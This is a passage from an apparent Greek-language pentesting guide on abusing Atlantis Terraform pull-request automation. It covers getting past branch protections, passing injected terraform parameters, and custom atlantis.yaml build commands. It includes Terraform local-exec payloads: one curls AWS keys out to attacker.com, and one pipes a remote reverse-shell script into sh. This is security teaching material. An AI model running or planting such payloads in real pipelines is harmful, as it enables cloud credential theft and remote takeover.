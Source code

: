 Ωστόσο, συνήθως θα χρειαστεί να παρακάμψετε κάποιες προστασίες:

- **Mergeable**: Αν αυτή η προστασία είναι ενεργοποιημένη στο Atlantis, μπορείτε να εκτελέσετε **`atlantis apply` μόνο αν το PR είναι mergeable** (που σημαίνει ότι η προστασία του κλάδου πρέπει να παρακαμφθεί).
- Ελέγξτε πιθανές [**παρακάμψεις προστασιών κλάδου**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)
- **Approved**: Αν αυτή η προστασία είναι ενεργοποιημένη στο Atlantis, κάποιος **άλλος χρήστης πρέπει να εγκρίνει το PR** πριν μπορέσετε να εκτελέσετε `atlantis apply`
- Από προεπιλογή μπορείτε να εκμεταλλευτείτε το [**Gitbot token για να παρακάμψετε αυτή την προστασία**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)

Εκτελώντας **`terraform apply` σε ένα κακόβουλο αρχείο Terraform με** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Απλά πρέπει να βεβαιωθείτε ότι κάποιο payload όπως τα παρακάτω καταλήγει στο αρχείο `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Ακολουθήστε τις **προτάσεις από την προηγούμενη τεχνική** για να εκτελέσετε αυτή την επίθεση με **πιο διακριτικό τρόπο**.

#### Terraform Param Injection

Όταν εκτελείτε `atlantis plan` ή `atlantis apply`, το terraform εκτελείται από κάτω, μπορείτε να περάσετε εντολές στο terraform από το atlantis σχολιάζοντας κάτι όπως:
```bash
atlantis plan -- <terraform commands>
atlantis plan -- -h #Get terraform plan help

atlantis apply -- <terraform commands>
atlantis apply -- -h #Get terraform apply help
```
Κάτι που μπορείτε να περάσετε είναι οι env μεταβλητές που μπορεί να είναι χρήσιμες για να παρακάμψετε κάποιες προστασίες. Ελέγξτε τις terraform env vars στο [https://www.terraform.io/cli/config/environment-variables](https://www.terraform.io/cli/config/environment-variables)

#### Προσαρμοσμένη Ροή Εργασίας

Εκτέλεση **κακόβουλων προσαρμοσμένων εντολών κατασκευής** που καθορίζονται σε ένα αρχείο `atlantis.yaml`. Το Atlantis χρησιμοποιεί το αρχείο `atlantis.yaml` από το branch του pull request, **όχι** από το `master`.\
Αυτή η δυνατότητα αναφέρθηκε σε προηγούμενη ενότητα:
